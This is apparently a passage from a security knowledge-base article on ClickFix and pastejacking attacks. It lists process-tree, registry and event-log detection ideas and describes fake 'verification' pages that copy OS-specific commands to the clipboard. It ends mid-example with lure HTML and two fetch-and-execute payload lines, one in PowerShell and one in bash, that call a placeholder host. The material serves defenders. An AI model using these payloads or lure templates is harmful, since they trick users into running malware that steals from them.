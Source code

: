 Next stage commonly deploys a loader that establishes persistence and pulls a RAT (e.g., PureHVNC), often pinning TLS to a hardcoded certificate and chunking traffic.

Detection ideas specific to this variant
- Process tree: `explorer.exe` → `powershell.exe -c` → `wscript.exe <temp>\a.js` (or `cscript.exe`).
- Startup artifacts: LNK in `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup` invoking WScript/CScript with a JS path under `%TEMP%`/`%APPDATA%`.
- Registry/RunMRU and command‑line telemetry containing `.split('').reverse().join('')` or `eval(a.responseText)`.
- Repeated `powershell -NoProfile -NonInteractive -Command -` with large stdin payloads to feed long scripts without long command lines.
- Scheduled Tasks that subsequently execute LOLBins such as `regsvr32 /s /i:--type=renderer "%APPDATA%\Microsoft\SystemCertificates\<name>.dll"` under an updater‑looking task/path (e.g., `\GoogleSystem\GoogleUpdater`).

Threat hunting
- Daily‑rotating C2 hostnames and URLs with `.../Y/?t=<epoch>&v=5&p=<encoded_user_pc_firstinfection>` pattern.
- Correlate clipboard write events followed by Win+R paste then immediate `powershell.exe` execution.


Blue-teams can combine clipboard, process-creation and registry telemetry to pinpoint pastejacking abuse:

* Windows Registry: `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` keeps a history of **Win + R** commands – look for unusual Base64 / obfuscated entries.
* Security Event ID **4688** (Process Creation) where `ParentImage` == `explorer.exe` and `NewProcessName` in { `powershell.exe`, `wscript.exe`, `mshta.exe`, `curl.exe`, `cmd.exe` }.
* Event ID **4663** for file creations under `%LocalAppData%\Microsoft\Windows\WinX\` or temporary folders right before the suspicious 4688 event.
* EDR clipboard sensors (if present) – correlate `Clipboard Write` followed immediately by a new PowerShell process.

## IUAM-style verification pages (ClickFix Generator): clipboard copy-to-console + OS-aware payloads

Recent campaigns mass-produce fake CDN/browser verification pages ("Just a moment…", IUAM-style) that coerce users into copying OS-specific commands from their clipboard into native consoles. This pivots execution out of the browser sandbox and works across Windows and macOS.

Key traits of the builder-generated pages
- OS detection via `navigator.userAgent` to tailor payloads (Windows PowerShell/CMD vs. macOS Terminal). Optional decoys/no-ops for unsupported OS to maintain the illusion.
- Automatic clipboard-copy on benign UI actions (checkbox/Copy) while the visible text may differ from the clipboard content.
- Mobile blocking and a popover with step-by-step instructions: Windows → Win+R→paste→Enter; macOS → open Terminal→paste→Enter.
- Optional obfuscation and single-file injector to overwrite a compromised site’s DOM with a Tailwind-styled verification UI (no new domain registration required).

Example: clipboard mismatch + OS-aware branching
```html
<div class="space-y-2">
  <label class="inline-flex items-center space-x-2">
    <input id="chk" type="checkbox" class="accent-blue-600"> <span>I am human</span>
  </label>
  <div id="tip" class="text-xs text-gray-500">If the copy fails, click the checkbox again.</div>
</div>
<script>
const ua = navigator.userAgent;
const isWin = ua.includes('Windows');
const isMac = /Mac|Macintosh|Mac OS X/.test(ua);
const psWin = `powershell -nop -w hidden -c "iwr -useb https://example[.]com/cv.bat|iex"`;
const shMac = `nohup bash -lc 'curl -fsSL https://example[.]com/p | base64 -d | bash' >/dev/null 2>&1 &`;
```